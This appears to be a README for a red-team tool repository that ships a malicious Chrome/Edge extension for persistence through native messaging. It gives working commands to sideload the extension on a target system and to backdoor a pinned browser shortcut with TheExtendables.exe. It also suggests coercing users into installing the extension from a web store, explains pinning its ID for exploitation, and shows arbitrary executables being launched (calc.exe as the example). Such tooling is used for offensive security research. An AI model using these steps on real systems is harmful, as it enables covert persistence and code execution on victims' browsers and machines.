


# Vulnerable Chrome/Edge Extension Sourcecode

This is the source code of an example vulnerable chrome/edge extension. 

This is fully working and the extension ID for this example is `anffbmbabbpmcaflbelkkhgdcfgppknb`.

This extension ID will be constant across any machine this is loaded into.

It's functionality is that it will just start execution of the nativemessaging application as soon as the browser is opened.

# How to use this

1. To make use of it, upload the `chrome-edge` folder in this directory to your target system (in the following examples, this repo has been unzipped in `C:\\ProgramData\\`).

2. 
- A) Then, to manually load the extension into chrome, run `"C:\Program Files\Google\Chrome\Application\chrome.exe" --load-extension=C:\\ProgramData\\Downloads\\the-extendables-main\\the-extendables-main\\extension-src\\chrome-edge\\`.

- B) To manually load the extension into edge, run `"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --load-extension=C:\\ProgramData\\Downloads\\the-extendables-main\\the-extendables-main\\extension-src\\chrome-edge\\`.

- C) Alternatively, you could run the following command through `TheExtendables.exe` to backdoor a browser shortcut - `TheExtendables.exe /lnkBackdoor /lnkPath "%APPDATA%\\Microsoft\\Internet Explorer\\Quick Launch\\User Pinned\\TaskBar\\Google Chrome.lnk" /extensionPath C:\\ProgramData\\Downloads\\the-extendables-main\\the-extendables-main\\extension-src\\chrome-edge\\`, then open it.

- D) The other alternative to backdooring the LNK with our malicious extension, would be to upload this folder to the chrome/edge extension store and coerce or force a user to download it.

3. Then to weaponise this, to run `calc.exe` as an example, you could run the following command in `TheExtendables.exe` tool - `TheExtendables.exe /persist /extensionID anffbmbabbpmcaflbelkkhgdcfgppknb /extensionName com.withsecure.theextendables /targetPath C:\\windows\\system32\\calc.exe`

# How to do this yourself

The example in the `chrome-edge` folder has been done for you and works, however if you want to change anything in it, or do this yourself, you will have to follow the steps below as the integrity checking `key` value in the extension manifest will become invalid:

1. Run the following command on the folder with your extension contents- `"C:\Program Files\Google\Chrome\Application\chrome.exe" --pack-extension="<EXTENSION FOLDER LOCATION>"`

This should produce a `.crx` and a `.pem` file, we only care about the `.crx` file.

2. Now open up the following URL in chrome - `chrome://extensions/`.

3. Then drag and drop the `.crx` file onto that screen and it should prompt you to add the extension.

4. Click `Add extension`, and you should see the extension appear on the screen with an ID field displayed (highlighted in the image below).

5. Now navigate to the following folder, with the ID which you just noted down - `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Extensions\<ID>`.

6. Within this folder, find the `manifest.json` and copy the contents over the original.

7. This will allow you to have a constant extension ID across any system which will be useful for exploitation and running other commands in the main `TheExtendables.exe` tool.

8. The extension ID will be the ID highlighted in the last image from the extension page in chrome.

Any time you change the contents of the extension directory you will need to repeat this process.

# Firefox

As of March 2020, Firefox disabled support for "sideloading" extensions. (https://blog.mozilla.org/addons/2020/03/10/support-for-extension-sideloading-has-ended/)

This means we can't use the backdooring method.

Instead you would have to upload the src code to the Firefox extension store, which signs it and scans it (https://extensionworkshop.com/documentation/publish/signing-and-distribution-overview/).

Then you would either coerce a user to download the file from the web-store or exploit an already existing extension.
